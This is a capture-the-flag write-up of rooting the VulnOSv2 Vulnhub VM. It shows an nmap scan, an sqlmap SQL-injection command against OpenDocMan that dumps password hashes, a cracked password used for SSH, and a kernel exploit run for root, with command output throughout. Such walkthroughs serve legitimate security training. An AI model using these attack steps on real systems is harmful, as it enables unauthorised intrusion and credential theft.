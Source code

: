 This is another writeup for a VM from Vulnhub, this one is by c4b3rw0lf.

Lets scan it:

_ nmap -sS -T4 -A 192.168.0.100 -p-

Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-17 08:49 CEST
Nmap scan report for 192.168.0.100
Host is up (0.00064s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_  256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:A1:E2:43 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.4
Network Distance: 1 hop
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.84 seconds

So there is ssh, a webserver and a IRC server.

On the webserver we get a link to /jabc, I spider this site, browse around a
bit, and find something interesting in /jabc/?q=node/8

>```
><p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
><p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
>```

We follow along to /jabcd0cs/

Here we find OpenDocMan 1.2.7, seeing the copyright for this version only goes
to 2013 I go to exploit db to see if there are any exploits.

>```
>https://www.exploit-db.com/exploits/32075/
>```

So there is SqL-injection possible in the add_value parameter, I fire sqlmap and
it and it gets some nice results.

>```
>sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user'
>-p add_value -D jabcd0cs --dump
>```

We get the hash for the webmin user.

>```
>Database: jabcd0cs
>Table: odm_user
>[3 entries]
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| id | phone        | Email              | username     | password                                 | last_name | first_name | department | pw_reset_code |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| 1  | 5555551212   | webmin@example.com | webmin       | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
>| 2  | 555 5555555  | guest@example.com  | guest        | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
>| 3  | 555-555-0199 | winter@example.com | Peter+Winter | 3d5bfcc2c4c3101c754087120572aaf7         | Winter    | Peter      | 1          | NULL          |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>```

I paste this hash into the google and get back the plaintext.

>```
>result: webmin1980
>```

We can ssh in as this user.

>```
>ssh webmin@192.168.0.100                                                                                                                                                                                                 ⏎
>webmin@192.168.0.100's password:
>Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)
>
> * Documentation:  https://help.ubuntu.com/
>
>  System information as of Tue May 17 08:49:07 CEST 2016
>
>  System load: 0.0               Memory usage: 4%   Processes:       63
>  Usage of /:  5.7% of 29.91GB   Swap usage:   0%   Users logged in: 0
>
>  Graph this data and manage this system at:
>    https://landscape.canonical.com/
>
>Last login: Wed May  4 10:41:07 2016
>$ id
>uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
>```

I get a shell on the server and do some recon, after not finding anything for a
while I notice:

>```
>webmin@VulnOSv2:~$ uname -a
>Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
>```

I go to kernel-exploits to check if this kernel is vulnerable to anything, and
it is! There is even a precompiled exploit for us.

>```
>https://www.kernel-exploits.com/exploit/39/
>```

I copy it into webmins hope directory and...

>```
>webmin@VulnOSv2:~$ chmod +x ofs_32
>webmin@VulnOSv2:~$ ./ofs_32
>spawning threads
>mount #1
>mount #2
>child threads done
>/etc/ld.so.preload created
>creating shared library
># id
>uid=0(root) gid=0(root) groups=0(root),1001(webmin)
>```

Yay!

>```
># cat /root/flag.txt
>Hello and welcome.
>You successfully compromised the company "JABC" and the server completely !!
>Congratulations !!!
>Hope you enjoyed it.
>
>What do you think of A.I.?
>```

Good challenge, I liked exploring the sites looking for vulns, thanks to Vulnhub
for hosting and thanks to c4b3rw0lf for creating it!

